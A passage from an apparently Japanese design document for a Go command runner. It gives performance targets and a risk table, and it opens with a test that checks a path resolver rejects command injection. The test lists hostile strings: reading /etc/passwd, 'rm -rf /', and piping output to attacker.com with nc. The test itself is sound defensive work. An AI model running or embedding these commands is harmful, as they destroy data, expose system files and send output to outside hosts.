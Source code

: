 ```go
    attackCommands := []string{
        "ls; cat /etc/passwd",
        "ls && rm -rf /",
        "ls | nc attacker.com 1337",
        "$(cat /etc/passwd)",
        "`cat /etc/passwd`",
    }

    for _, cmd := range attackCommands {
        _, err := pathResolver.ResolvePath(cmd)
        assert.Error(t, err, "Should reject command injection attempt: %s", cmd)
    }
}
```

## 7. パフォーマンス目標

### 7.1 性能要件

| 項目 | 目標値 | 測定方法 |
|------|--------|----------|
| global検証時間 | < 100ms | 10ファイル想定 |
| group検証時間 | < 50ms/group | 5ファイル/group想定 |
| PATH解決時間 | < 10ms/command | キャッシュ使用 |
| メモリ使用量増加 | < 5MB | ハッシュキャッシュ含む |
| 起動時間増加 | < 100ms | 全体的な影響 |

### 7.2 最適化戦略

- **キャッシュ活用**: パス解決結果のキャッシュ
- **遅延評価**: groups検証は各グループ実行直前
- **並列処理**: 複数ファイルの検証（将来拡張）
- **早期終了**: 失敗時の即座な処理停止

## 8. リスク管理

### 8.1 技術リスク

| リスク | 影響度 | 対策 |
|--------|--------|------|
| filevalidator パッケージの制約 | 中 | 事前調査済み、既存機能活用 |
| PATH解決の複雑性 | 中 | セキュリティファーストの設計 |
| パフォーマンス影響 | 中 | ベンチマークテストとプロファイリング |
| 既存機能への影響 | 高 | 段階的実装と十分なテスト |
